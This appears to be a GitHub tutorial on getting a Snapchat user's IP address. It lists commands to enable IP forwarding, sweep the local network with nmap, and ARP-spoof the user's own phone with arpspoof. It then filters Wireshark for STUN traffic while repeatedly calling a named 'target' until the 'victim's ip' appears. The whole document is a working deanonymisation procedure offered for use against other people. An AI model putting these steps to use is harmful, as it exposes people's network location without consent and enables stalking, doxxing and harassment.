 ## **HOW TO PULL IPS ON SNAP** 

### **Here is some things you will need in order to make this work:**
**Requirements:**
- Mac OS X / Kali linux (Or any UNIX)
- A Phone where you have snapchat on (Im assuming its a Phone)
- Nmap
- Some tools and little MITM knowledge!
### **Here's how it's done:**
- Download Wireshark -> **https://www.wireshark.org/**
- Download Arpspoof for Mac -> **https://github.com/ivanvza/arpy**
- Fire up terminal and ip forward your laptop/pc with this scripts:

### **On Kali:**
- sudo sysctl net.ipv4.ip_forward = 1
- sudo net.ipv4.ip_forward = 1

### **On Mac:**
- sudo sysctl -w net.inet.ip.forwarding=1

**Find your Devices local ip and write it down.**
- nmap -sn (or -sP) <gateway ip>/24

**Example:**
- nmap -sn 192.168.0.1/24
  
**Spoof your phone.**
- arpspoof -i -t gateway

**Example:**
- arpspoof -i en0 -t 192.168.0.160 192.168.0.1

**Sometimes you need to reverse arpspoof aswell so to be safe, switch gateway with phone ip:**
- arpspoof -i en0 -t 192.168.0.1 192.168.0.160

**Fire up Wireshark and filter on your phone ip with STUN protocol**
- ip.addr == <phone ip> && stun
  
**Example:** 
- ip.addr == 192.168.0.160 && stun

**Call the Target on snap and keep calling them for around 5 seconds.
Wireshark should throw up some binding requests, then some other STUN ones.
Those last ones are your victim's ip.**

**Example**
- https://ibb.co/yN4sJjK
- https://ibb.co/hBzCgwB <---- graph to snapchat osint

